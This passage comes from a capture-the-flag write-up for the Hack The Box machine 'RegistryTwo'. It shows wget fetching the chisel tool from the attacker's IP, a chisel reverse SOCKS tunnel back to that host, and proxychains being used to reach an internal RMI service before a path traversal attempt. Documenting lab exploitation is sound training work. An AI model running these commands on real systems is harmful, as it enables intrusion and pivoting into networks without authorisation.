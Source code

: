 ```bash
wget http://10.10.16.86/chisel
```

Make the file executable and run it with the following parameter to open a socks proxy back to our machine.

```bash
chmod +x chisel
./chisel client http://10.10.16.86:5000 R:socks
```

If everything went well we get a connection back on our Chisel server.

![Proxy connection back](/assets/img/RegistryTwo/RegistryTwo_27.png)


So now that we have a connection back we can run our new CLI tool by running the class through our proxychain. In the screenshot we can see that we sucessfully made connection to the RMI service.

```bash
proxychains java -cp src com.htb.hosting.rmi.FileServiceClient
```

![RMI connection](/assets/img/RegistryTwo/RegistryTwo_28.png)


The abstractfile class required us to select a valid vhost first. This is because the service uses the directory of that vhost as starter directory. If you don't have a valid vhost yet, go onto the application and use the Create Domain function. Then in the URL paramter you can see the vhost it created for you. To test out if the file listing worked, I ran it without trying to traverse out of its root directory yet.
